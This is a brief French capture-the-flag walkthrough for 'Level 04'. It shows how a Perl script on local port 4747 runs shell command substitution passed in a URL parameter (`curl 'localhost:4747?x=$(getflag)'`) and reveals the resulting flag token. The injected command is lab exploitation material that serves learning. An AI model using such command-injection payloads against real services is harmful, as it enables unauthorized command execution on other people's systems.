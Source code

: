 
## **Level 04 :**

On a un script perl, qui est en fait lancé sur le port 4747 de la machine. (`ss -tulwn | grep 4747`)

On voit qu'on peut paser un param a ce script. On va utiliser curl, et passer un param:

`curl 'localhost:4747?x=coucou'`

Le programme nous repond "coucou".

On sait qu'on peut utiliser la substitution de commande (`$(command)`) pour lancer un commande et capturer sa sortie.

Essayons donc:

`curl 'localhost:4747?x=$(getflag)'` ... le script a ete lancé par un user ayant les droits:

> Token: **ne2searoevaevoem4ov4ar8ap**